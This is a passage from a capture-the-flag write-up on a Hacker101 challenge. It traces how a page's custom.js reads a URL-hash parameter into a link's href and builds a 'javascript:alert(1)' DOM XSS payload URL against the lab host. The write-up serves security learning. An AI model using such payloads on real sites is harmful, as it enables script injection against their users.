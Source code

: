 Combined with the header of custom.js

```javascript
var hash = window.location.hash.substr(1);
var result = hash.split('&').reduce(function (e, t) {
  var n = t.split('=');
  return e[n[0]] = n[1],
  e
}, {
}
);
var tracking = JSON.stringify(result);
var who = (tracking = JSON.parse(tracking)).who;
```

A location of ```https://xxx.ctf.hacker101.com#searchterm=searchval&redirectUrl=redirectVal```

The value of result from the above will give a javascript object such as

```javascript
{
    searchterm: 'searchvalue',
    redirectUrl: 'redirectValue'
}
```

Let's focus on the redirecrUrl, we can see that if it's not null it will set the href attribute of the redirecUrl element id

```javascript
    if (redirect == null) { 
      document.getElementById("redirectUrl").href="index.php";
    } else {
      document.getElementById("redirectUrl").href=redirect;
    }
```

Eg.

```html
<a href="#" id="redirectUrl">Return to profile</a>
```

So if we construct a URL such as 

```https://xxx.ctf.hacker101.com/#redirectUrl=javascript:alert(1)&searchterm=hi```

We get XSS

### XSS Who?

Revisiting this snippet of code from custom.js

```javascript
var hash = window.location.hash.substr(1);
var result = hash.split('&').reduce(function (e, t) {
  var n = t.split('=');
  return e[n[0]] = n[1],
  e
}, {
}
);
var tracking = JSON.stringify(result);
var who = (tracking = JSON.parse(tracking)).who;
```
